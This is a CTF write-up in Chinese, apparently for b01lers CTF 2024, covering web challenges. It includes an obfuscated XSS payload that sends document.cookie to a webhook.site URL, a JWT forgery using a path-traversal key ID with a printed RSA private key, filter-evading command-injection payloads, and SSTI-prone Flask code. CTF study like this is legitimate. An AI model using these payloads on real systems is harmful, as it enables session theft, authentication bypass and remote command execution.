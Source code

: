 
# web
### b01ler-ad
post `/review`接口,会有一个浏览器来访问http://localhost:3000/admin/view?content?=${content}
,发送一个html文档,

过滤了' " \` 使用String.fromCharCode绕过
 应该是xss读cookie,就是直接发个html,fetch,注意加个no-cors,不然无法跨域

```html
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>upload</title>
</head>
<body>
<script>
eval(String.fromCharCode(102,101,116,99,104,40,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,97,50,48,99,57,102,57,100,45,98,53,48,54,45,52,97,56,97,45,57,51,100,97,45,99,101,53,52,102,100,56,55,100,48,54,97,39,44,123,109,101,116,104,111,100,58,39,80,79,83,84,39,44,109,111,100,101,58,39,110,111,45,99,111,114,115,39,44,98,111,100,121,58,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,125,41))</script>

</body>
</html>
```
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240413232240.png)

### imagehost
flag在上传的png里,登录为admin即可
`FLAG_FILENAME="$(python3 -c 'import uuid;print(uuid.uuid4())').png"`

Route("/", home),   主页,jwt鉴权,给出当前用户所有上传的照片
Route("/login", login_get), 返回login.html,jinjia2渲染无ssti
Route("/login", login, methods=["POST"]),    传入用户名/密码,fetchone,设置jwt里userid和admin
Route("/register", register_get),             register.html
Route("/register", register, methods=["POST"]),   insert,参数化
Route("/logout", logout),                  
Route("/", upload, methods=["POST"]),        上传文件,
Route("/view/{filename}", view),   
```python
async def view(request):
	filename = request.path_params["filename"]
	
	path = UPLOAD_FOLDER.joinpath("a").with_name(filename)
	if not path.exists():
		return PlainTextResponse("Image not found", 404)
	
	return FileResponse(UPLOAD_FOLDER.joinpath("a").with_name(filename))
```

需要伪造admin用户,使用的是非对称加密,且公钥(decode)的文件位置可指定,能否通过upload上传公钥文件,,且pem还要符合png的标准

我为我的无知道歉,pem的格式是这样的
```pem
-----BEGIN RSA PRIVATE KEY-----
MIICXAIBAAKBgQCT96Ir3DM+PtlpHqyI8YOBOKyAexIO5RMpwUgUndIRBs72g0Ga
Tyy8yxKbMCaJ2nLQBC9D6cOp8UzHBeirsk0rYETGQBFqHzOvjod3VjE+9eRMJGl7
oohwHUzqHUOoNDKLvz2HuoVtRHawfw4EHCx9OTNyWct7jjg9VV0EEz9IdQIDAQAB
AoGAbFR3kZ70kVTYPYLslJIlUj0Y5jO0Y91Iq2BLknR9MGQIsCgmpn/i5BHU/HND
M9gQCMWXiSQjUU9Ng8SKtPGkVsl22mNZkRb69Ca1083pI2HxwL3dhEXl+VLD37w+
Cg+9glWnsjdUFy8WoiTun0yWJHiXKN2VRCv759+vJS6M150CQQDDQt2HoKEKVsU1
RLyRpr93Idtmzplro48zsvsmuCZJyNnpn4VYz7BFvu7SDX4Xkz1dr9gELnTvnQY3
rBWNQOXzAkEAwf6jpDFa+JL9/CLLTxuwn51Or8C4zcd1LjrmsqWz8SYDnuAZo4Vg
A2MlVAYpbk1XfVWzGPxralsa9+Zrl9yp9wJATmQe2h+T57m0TNF+vx7pyWNPWTPi
hkNQ75mQmRffT0oSqmd/uosPIsEn0i7Wi5JyVZWOLQeVrMkmwN0WffIrHwJBAIM2
4Sil2YpYokJwpmOTrxvHIvntuRI23yOt42zid5ucwsYrfiwEgrTH0u/KWyuoVI0J
8mHsGhuOE+epiwzkzHECQCN3G0+GcCfE6eYF5yW19n7QoK3sxU5HbwXKoAeXgM0z
TEiGjWVM5w+Ea21IUsE2O2CIG1CePqUI2DSujYCo7Oc=
-----END RSA PRIVATE KEY-----
```
或者说view路由读取公钥文件?

实践出真知!!!,只要不破坏pem文件格式也可以解析
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240414025437.png)

类似于图片马的制作,在一个图片中间把公钥加上去
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240414035316.png)


照着原来的代码写一个加密,注意在linux上跑...
```python
import jwt
from pathlib import Path


payload={"user_id":1,"admin":True}

def encode(payload, public_key: Path, private_key: Path):
        key = private_key.read_bytes()
        return jwt.encode(payload=payload, key=key, algorithm="RS256", headers={"kid": str(public_key)})
print(encode(payload=payload,public_key=Path('../../../../../../uploads/2b170008-668c-4810-9b38-3815912a675b.png'),private_key=Path('/tmp/private.pem')))
```

output`eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Ii4uLy4uLy4uLy4uLy4uLy4uL3VwbG9hZHMvMmIxNzAwMDgtNjY4Yy00ODEwLTliMzgtMzgxNTkxMmE2NzViLnBuZyJ9.eyJ1c2VyX2lkIjoxLCJhZG1pbiI6dHJ1ZX0.fBuVTPsTuxKvVfpTUsi8qcDt07TqNZaORzH936DSgCT_xn5AtblipxDWKIHCbRRQyb1E2fwCQI7S9ORYNEb71PCrAHSop2akS084yIssIyVM3JGCVKpNrOvt-ta6Ua3TemAcpuI3Jx8jE_HTIot0rdBahS_DVXuZ8-NHn2YqIOo`

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240414034815.png)



### 3-city-elves-writeups
命令注入,过滤了很多关键字

通过变量替换,先得到echo,使用base32 读取flag.png然后写入到静态文件style.css里
本地可以,远程不行
```json
{"content":"1\"';b=`b=ch;e${b}o 'F4FA====' |base32 -d`;a=ch;e${a}o 'aaaa'>> as*${b}sty* ;'\""}
```

```json
//变量b为/,然后base32读取根目录flag.png
{"content":"1\"';b=`b=ch;e${b}o 'F4FA====' |base32 -d`;base32 ${b}proc${b}self${b}cmdline >> as*${b}sty* ;'\""}
```
sh不支持多级目录通配符...

```json
{"content":"1\"';e=se;b=`b=ch;e${b}o 'F4FA====' |base32 -d`;base32 ${b}flag.png > as${e}ts${b}style ;'\""}
```

然后访问&下载/static/style 
`base32 -d style >flag.png`

![flag.png](https://gitee.com/leiye87/typora_picture/raw/master/20240414174123.png)



`bctf{Lucky_you_I_did_not_code_this_stuff_in_Ruby_lasudkjklhdsfkhjkae}`

### pwnhub

可以上传笔记内容,存在ssti
```python
@app.get('/view/<id>')
@login_required
def view(id):
    if (users[current_user.name].verification != V.admin):
        return render_template_string('This feature is still in development, please come back later.')
    content = next((post for post in current_user.posts if id in post), None)
    if not content:
        return render_template_string('Post not found')
    content = content.get(id, '')
    if any(char in content for char in INVALID):
        return render_template_string(f'1{"".join("33" for _ in range(len(content)))}7 detected')
    return render_template_string(f"Post contents here: {content[:250]}")
```
但是需要先是admin
```python
users = {
    "admin": User("admin", ''.join(choice(string.ascii_uppercase + string.ascii_lowercase + string.digits) for _ in range(32)), V.admin),
    "pwnlyfans": User("pwnlyfans", ''.join(choice(string.ascii_uppercase + string.ascii_lowercase + string.digits) for _ in range(32)), V.user)
}
```

# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2024-04-13   22:21